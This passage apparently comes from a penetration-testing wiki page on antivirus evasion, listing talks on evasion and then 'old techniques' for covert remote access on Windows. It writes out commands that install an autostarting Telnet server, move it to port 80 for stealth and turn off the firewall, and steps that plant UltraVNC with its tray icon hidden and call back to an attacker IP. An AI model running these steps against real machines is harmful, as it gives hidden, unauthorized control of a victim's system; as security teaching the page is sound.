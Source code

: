 Evasion is a very complicated topic, sometimes you have to take into account many different sources of telemetry in just one system, so it's pretty much impossible to stay completely undetected in mature environments.

Every environment you go against will have their own strengths and weaknesses.

I highly encourage you go watch this talk from [@ATTL4S](https://twitter.com/DaniLJ94), to get a foothold into more Advanced Evasion techniques.

{% embed url="https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo" %}

his is also another great talk from [@mariuszbit](https://twitter.com/mariuszbit) about Evasion in Depth.

{% embed url="https://www.youtube.com/watch?v=IbA7Ung39o4" %}

## **Old Techniques**

### **Telnet Server**

Until Windows10, all Windows came with a **Telnet server** that you could install (as administrator) doing:

```
pkgmgr /iu:"TelnetServer" /quiet
```

Make it **start** when the system is started and **run** it now:

```
sc config TlntSVR start= auto obj= localsystem
```

**Change telnet port** (stealth) and disable firewall:

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Download it from: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (you want the bin downloads, not the setup)

**ON THE HOST**: Execute _**winvnc.exe**_ and configure the server:

* Enable the option _Disable TrayIcon_
* Set a password in _VNC Password_
* Set a password in _View-Only Password_

Then, move the binary _**winvnc.exe**_ and **newly** created file _**UltraVNC.ini**_ inside the **victim**

#### **Reverse connection**

The **attacker** should **execute inside** his **host** the binary `vncviewer.exe -listen 5900` so it will be **prepared** to catch a reverse **VNC connection**. Then, inside the **victim**: Start the winvnc daemon `winvnc.exe -run` and run `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900`
